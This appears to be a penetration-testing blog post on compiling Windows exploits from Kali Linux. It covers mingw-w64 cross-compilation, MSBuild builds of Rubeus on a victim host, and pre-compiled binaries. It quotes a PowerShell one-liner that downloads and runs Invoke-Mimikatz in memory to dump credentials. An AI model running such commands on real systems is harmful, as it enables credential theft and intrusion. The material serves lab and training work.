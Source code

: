 ```yaml
---
layout: post
title: Compile Windows Programs in Kali Linux
category: tools
tags: windows building exploit
date: 2023-04-19 20:51 +0300
---
```


There are a lot of situations, when you have to compile an exploit for a specific version of Windows, for example, to make a privilege escalation. But you have only Kali Linux and no idea how to deal with these exploits in Visual Studio Projects format.

Today we are going to learn about ways we can compile our exploits using Kali Linux and additional software.

> Funny story: I was doing some lab on HackTheBox and I had to upload a compiled version of Rubeus. I had no idea how to compile Windows programs, and I had only Kali Linux. So I’ve started to search some pre-compiled versions on the Internet. And I really found a pre-compiled base64 version of the program, which did not work for me. I’ve spent a few hours on this searching, and finally I got the “right” version of the Rubeus, which worked for me. After some amount of time I’ve realized that I could do it much easier. It was so terrible🤣.

# Table of Contents

- [Cross-compiler](#cross-compiler)
- [Virtual Machine](#virtual-machine)
- [On the victim machine](#on-the-victim-machine)
- [Find pre-compiled versions](#find-pre-compiled-versions)
  * [Kali Linux windows binaries](#kali-linux-windows-binaries)
  * [The Internet](#the-internet)
- [Conclusion](#conclusion)

# Cross-compiler

If you want to compile your exploit right on your Kali Linux machine, you can use cross-compilation tools, like `mingw-w64`. It is used to compile Windows programs on Linux.

```bash
sudo apt install mingw-w64
```

For example, you have a x86 victim machine and an exploit for it. You may want to compile an exploit written in `C` language. You can use the commands below to do that.

```bash
searchsploit -m 42341
i686-w64-mingw32-gcc 42341.c -lws2_32 -o exploit.exe
```

![Compiling with mingw-w64](/assets/tools/compile-windows-programs-in-kali-linux/mingw.png)

# Virtual Machine

It is recommended to install a VM on your side to test your exploits/theories about the target. So, you can compile the program right on that machine. But be sure to install right target’s version of the operating system.

Firstly, you have to install the iso image of the OS. You can download the right version of Windows on [Microsoft website](https://www.microsoft.com/en-gb/software-download/windows10), the [Internet Archive](https://archive.org/details/windows-10-2022-update-version-22h2) or other sites. I provided links to Windows 10 Update Version 22H2 just for example.

Then, create a VM in virtualization software you like. I used to work with VirtualBox, but now I use VMWare Workstation Player, it seems better for me.

![Creating a VM in VMWare Workstation Player](/assets/tools/compile-windows-programs-in-kali-linux/vmware.png)

If you did it well, feel free to use new VM not just to compile programs for it. You can explore the system for file system, default settings, testing your exploits, etc…

# On the victim machine

It is a very low-possible way, but why not? If the target machine has a compiler installed, then we can use it to compile projects right on the target machine.  

For example, to build [Rubeus](https://github.com/GhostPack/Rubeus), a C# project just with command line you have to use `MSBuild` binary. I’ve found its location on [StackOverFlow](https://stackoverflow.com/questions/44567280/where-is-msbuild-exe-installed-in-windows-when-installed-using-buildtools-full-e), the root of it is `C:\Program Files (x86)\Microsoft Visual Studio`. There you can find the year of installed version, then go to build tools and you’ll get it.

Copy the binary path, change your current directory to the project directory and use the binary from there.

```powershell
 "C:\Program Files (x86)\Microsoft Visual Studio\2017\BuildTools\MSBuild\15.0\Bin\MSBuild.exe"
```

![Building Rubeus with MSBuild](/assets/tools/compile-windows-programs-in-kali-linux/msbuild1.png)

![Building Rubeus with MSBuild](/assets/tools/compile-windows-programs-in-kali-linux/msbuild2.png)

Then, enjoy your program!

![Using Rubeus after MSBuild](/assets/tools/compile-windows-programs-in-kali-linux/msbuild3.png)

Also, developers machines always include some kind of IDEs with a lot of useful tools installed. So, if you have a RDP connection, then why not to use the legitimate developer tools 😀. 

# Find pre-compiled versions

## Kali Linux windows binaries

The Kali tools provides some pre-compiled Windows binaries installed with operating system. The `windows-binaries` is a package, which can be installed with `apt`.

```bash
sudo apt install windows-binaries
```

After installation, you can enter the `windows-binaries` command to get a list of pre-compiled binaries. Also, you will change your working directory to package installation directory.

![windows-binaries command output](/assets/tools/compile-windows-programs-in-kali-linux/windows-binaries.png)

## The Internet

There are a lot of pre-compiled versions of useful binaries. They can be even ported in PowerShell scripts.

For example, you can find an [Invoke-Mimikatz.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) script. If we look at its source code, we can find Base64 strings for 64-bit and 32-bit systems.

![Invoke-Mimikatz Source code](/assets/tools/compile-windows-programs-in-kali-linux/invoke-mimikatz.png)

You can just download and use that script. But there is no guarantee it would work on your system. Here is a quick in-memory usage example from [HackTricks](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#invoke-mimikatz).

```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/clymb3r/PowerShell/master/Invoke-Mimikatz/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -DumpCreds # Dump creds from memory
```

# Conclusion

Today we explored ways to compile Windows programs. You can use these methods to use your exploits on target machines. If you know another ways to do that, feel free to write a comment.

Thank you for reading, I hope it was useful for you ❤️

